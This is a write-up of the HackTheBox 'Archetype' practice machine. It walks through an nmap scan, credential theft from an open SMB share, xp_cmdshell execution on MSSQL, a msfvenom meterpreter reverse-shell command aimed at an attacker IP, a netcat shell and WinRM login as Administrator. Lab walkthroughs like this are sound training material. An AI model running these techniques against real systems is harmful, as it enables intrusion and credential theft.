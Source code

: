 # HackTheBox-Archetype

## NMAP

```bash

PORT     STATE SERVICE      VERSION                                       
135/tcp  open  msrpc        Microsoft Windows RPC                         
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-05-09T05:37:36
| Not valid after:  2051-05-09T05:37:36
| MD5:   dd26 d0f2 bf23 57ec 693e 11af 7fe6 51f3
|_SHA-1: be4f 58af 20c9 c656 7ae4 4c6a bbfe 1ae2 6ce8 7f16
|_ssl-date: 2021-05-09T05:48:20+00:00; +18m07s from scanner time.
PORT     STATE SERVICE VERSION
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows


```

From the scan we scan see SMB service is running so we can check if we are allowed to access shares as `anonymous` user

## PORT 139/445 (SMB)

<img src="https://imgur.com/5tq1AwP.png"/>

Here we can see we can read `backups` share so let's do it 

<img src="https://imgur.com/vw3Kbqz.png"/>

Download the file using `get prod.dtsConfig`

On reading the file we can there's a password for `sql_svc` service account

<img src="https://i.imgur.com/YSfVB3T.png"/>

Let's verify it through `crackmapexec`

<img src="https://imgur.com/wn9GCJZ.png"/>

And it seems the credentials are valid, so I am going to be using `sqsh` which is an opensource interactive database shell

<img src="https://imgur.com/bs3ulYE.png"/>

Now to execute windows commands we are going to use `xp_cmdshell` which spawns a windows command shell . xp_cmdshell is an extended stored procedure provided by Microsoft and stored in the master database. So the whole command will be 
```
EXEC master ..xp_cmdshell 'whoami'
``` 
 Here `EXEC` is used to execute stored procedure on a database and stored procedures are kinda like functions in mysql /mssql.
 
 <img src="https://i.imgur.com/zPvVKue.png"/>
 
 Perfect now we need to what's our current location in file system so we may upload our payload and get a proper shell
 
 <img src="https://i.imgur.com/JV5Zop9.png"/>
 
 Right now we are in `system32` folder where we don't have permissions to read and write so we may need to save our payload in a directory where we are allowed to
 
 This looks the directory for the service account or user in this case now since he has his own directory 
 
 <img src="https://i.imgur.com/QG5bCsR.png"/>
 
 Generate a windows 64 bit metepreter payload
 
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.220 LPORT=2222 -f exe > shell.exe
```

 <img src="https://imgur.com/Y8hX7IN.png"/>
 
 Now host this on local machine using python3 
 
 <img src="https://imgur.com/b5JLOFi.png"/>
 
 And download it like this 
 
 <img src="https://imgur.com/DTWyoFM.png"/>
 
But whenever I try to execute the payload it would get deleted so there's some schedule tasks or scripts running in the background so can't do it like this also I tried uploading a powershell script and executing but that was blocked as well

<img src="https://i.imgur.com/nX8cWTQ.png"/>

So the only option left was to upload a netcat executable for 64 bit version

<img src="https://imgur.com/qQfzyUh.png"/>

Then simply run the executable 

<img src="https://i.imgur.com/3rk7B9r.png"/>

Running `whoami /all` we can see privileges on the machine

<img src="https://i.imgur.com/SOP337d.png"/>

I tried to use `PrintSpoofer`exploit but it failed

<img src="https://imgur.com/4NLd4Lu.png"/>

At this point I took a hint for the escalation because everything was failing and it wasn't meant to be exploited like that so I was told to find password for `Administrator` account so I started to view hidden files with `dir /a`

<img src="https://i.imgur.com/YRaXS7d.png"/>

Since WinRM port is open we can remotely login using these credentials

<img src="https://imgur.com/e93MKLX.png"/>